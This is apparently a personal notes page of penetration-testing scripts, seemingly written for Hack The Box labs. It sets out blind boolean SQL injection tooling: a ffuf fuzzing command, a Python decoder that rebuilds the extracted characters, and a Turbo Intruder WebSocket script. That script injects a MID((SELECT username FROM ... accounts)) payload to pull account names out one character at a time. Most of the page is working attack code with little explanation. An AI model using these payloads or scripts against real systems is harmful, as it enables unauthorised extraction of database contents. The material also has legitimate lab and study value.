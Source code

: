 # Scripts

## SQLi

### Converting Blind Boolean ffuf output to ASCII

`ffuf -request request.txt -request-proto http -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73`

<div align="left"><figure><img src="../../.gitbook/assets/image (6).png" alt="" width="506"><figcaption></figcaption></figure></div>

```bash
cat output | grep '*' > newoutput
```

```python
file=open("newoutput","r")
dic = {}
while True:
    keyv = file.readline()
    if not keyv:
        break
    key = keyv.split(':')[1].replace("\n","").strip()
    valv = file.readline()
    val = valv.split(':')[1].replace("\n","").strip()
    dic[key]=val


l = [0] * len(dic)
for i in range(1,len(dic)+1):
    l[i-1] = dic[str(i)]
text = ''.join(chr(int(value)) for value in l)
print(text)
```

### WebSockets Blind Boolean&#x20;

```python
#Body in Request Panel of WebSocket Turbo Intruder
{
"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),$1,1)='$2'"
}

import time
def queue_websockets(upgrade_request, message):
    connection1 = websocket_connection.create(upgrade_request)
    template = message
    with open('/home/jtripz/htb/scripts/smallcharlist.txt') as file: 
        for i in range(1,10):
            for line in file:
                time.sleep (0.17)
                payload = build_payload(template,str(i), line.strip())
                connection1.queue(payload)
            file.seek(0)

def build_payload (template, *args):
    return_payload = template
    for i in range (0, len(args)):
        return_payload = return_payload.replace('$'+str(i+1), args[i])
    return return_payload
    

def handle_outgoing_message(websocket_message):
    results_table.add(websocket_message)

def handle_incoming_message(websocket_message):
    if websocket_message.getLength()==13:
        results_table.add(websocket_message)
```
